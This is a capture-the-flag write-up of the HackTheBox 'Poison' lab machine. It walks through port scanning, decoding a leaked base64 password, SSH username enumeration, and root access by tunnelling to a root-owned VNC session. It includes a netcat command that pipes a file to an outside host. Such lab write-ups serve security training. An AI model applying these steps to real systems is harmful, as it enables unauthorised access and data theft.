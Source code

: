 ```yaml
---
title: "Poison"
date: 2023-08-31T17:08:15+02:00
tags: ["privesc","web","linux","ssh"]
categories: ["hackthebox"]
author: "Ayman Boulaich"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
summary: "Linux machine with a website which has a base64 encoded password leaked on a directory. We privEsc thanks to do a portforwarding on a VNC port."
description: "Linux machine with a website which has a base64 encoded password leaked on a directory. We privEsc thanks to do a portforwarding on a VNC port."
canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableShare: true
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: false
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "<image path/url>" # image path/url
    alt: "<alt text>" # alt text
    caption: "<text>" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page
editPost:
    URL: "https://github.com/pwndside/pwndside.github.io/content"
    Text: "Suggest Changes" # edit text
    appendFilePath: true # to append file path to Edit link
---
```


## Room Information

- Room name: Poison
- Difficulty level: Medium
- Room link: https://app.hackthebox.com/machines/Poison

![/HTB/poison-icon.png](/HTB/poison-icon.png)

## Tools Used

- nmap
- searchsploit
- vncviewer

## Port Scanning

```bash
sudo nmap $IP -n -Pn -vvv --min-rate 5000
```

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey:
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDFLpOCLU3rRUdNNbb5u5WlP+JKUpoYw4znHe0n4mRlv5sQ5kkkZSDNMqXtfWUFzevPaLaJboNBOAXjPwd1OV1wL2YFcGsTL5MOXgTeW4ixpxNBsnBj67mPSmQSaWcudPUmhqnT5VhKYLbPk43FsWqGkNhDtbuBVo9/BmN+GjN1v7w54PPtn8wDd7Zap3yStvwRxeq8E0nBE4odsfBhPPC01302RZzkiXymV73WqmI8MeF9W94giTBQS5swH6NgUe4/QV1tOjTct/uzidFx+8bbcwcQ1eUgK5DyRLaEhou7PRlZX6Pg5YgcuQUlYbGjgk6ycMJDuwb2D5mJkAzN4dih
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKXh613KF4mJTcOxbIy/3mN/O/wAYht2Vt4m9PUoQBBSao16RI9B3VYod1HSbx3PYsPpKmqjcT7A/fHggPIzDYU=
|   256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJrg2EBbG5D2maVLhDME5mZwrvlhTXrK7jiEI+MiZ+Am
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd
```

We have two open ports up and running, one with a website and the other one for **ssh**.

## Enumeration

As always I am going to enumerate the **http** page.

![Untitled](/HTB/poison-1.png)

It like a **php** browser, one of the sites to be tested is pretty interesting `listfiles.php` 

![Untitled](/HTB/poison-2.png)

We can see an array of **php** files maybe is performing a ls command on background.

```bash
This password is secure, it's encoded atleast 13 times.. what could go wrong really.. Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0 NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO Ukd4RVdub3dPVU5uUFQwSwo=
```

I checked each one and `pwdbackup.txt` leaks a **base64 encoded password** and also a message telling us that has been encoded 13 times.

## Exploiting

So I decided to make a bash script in order to decode it 13 times and output the decoded password.

```bash
#!/bin/bash

encoded_text="Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xV$
decoded_text=$encoded_text

for i in {1..13}
do
    decoded_text=$(echo "$decoded_text" | base64 -d)
done

echo "$decoded_text"
```

Once executed we have a password but not a username.

```
Charix!2#4%6&8(0
```

As the ssh version is older we can enumerate user with an exploit

![Untitled](/HTB/poison-3.png)

We can execute the exploit with the following command

```bash
usage: sshenum.py [-h] [-p PORT] target username
```

So I decided to try with admin, **root** and **posion** and **charix**. The last one because is extracted from the password.

**root** and **charix** are valid usernames.

![Untitled](/HTB/poison-4.png)

![Untitled](/HTB/poison-5.png)

## Gaining an Initial Foothold

After attempting the two usernames with the decoded password, I successfully logged in as **charix**.

![Untitled](/HTB/poison-6.png)

Let’s cat the **user’s flag**.

![Untitled](/HTB/poison-8.png)

![Untitled](/HTB/poison-9.png)

With the id command we can see that we don’t have permissions as root so we need to **privEsc**.

## Escalating Privilege

Checking at the charix’s home directory we can see a `secret.zip`.

![Untitled](/HTB/poison-10.png)

The file owner is **root** so let’s try to unzip it.

When I try to unzip it unzip asks you for a password but doesn’t let you put it before it closes. 

So I decide to unzip it on my local machine sending the file via nc.

```bash
nc 10.10.14.9 4444 < secret.zip
```

The bellow command on the remote machine and the above command on the local machine.

```bash
nc -lv 4444 > secret.zip
```

Once we get the zip I try to unzip it with the same password as before and it worked.

![Untitled](/HTB/poison-11.png)

The zip has only one file with a **non-ascii characters**.

Interesting but not so useful right now.

If we check if there are more open ports, we can see two unexpected ports which **nmap** doesn’t shown like **5801** and **5901**.

```bash
netstat -na -p tcp
```

![Untitled](/HTB/poison-12.png)

This ports are typically used for **VNC**. By checking the processes we can see that the vnc process is owned by the **root**.

```bash
ps faux
```

```bash
root   529   0.0  1.0  26188 10440 v0- I    12:05     0:00.68 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.
```

Let’s do a **portforwarding** with ssh to the port 5901 in order to connect to vnc root’s dektop.

```bash
ssh -L5901:127.0.0.1:5901 charix@10.10.10.84
```

Now, we need to download **VNC**, we can do it with brew.

```bash
brew install tiger-vnc
```

Once installed let’s run vnc

```bash
vncviewer 127.0.0.1:5901
```

![Untitled](/HTB/poison-14.png)

The program asks you for a password, I tried to put **default/common passwords** and to reutilize the previous password but failed.

Later I realized that we have a secret file with a password maybe if we pass it as argument we can get in.

```bash
vncviewer -passwd secret 127.0.0.1:5901
```

![Untitled](/HTB/poison-15.png)

We are in.

![Untitled](/HTB/poison-16.png)

**Thank you for reading, and happy hacking! 😄**
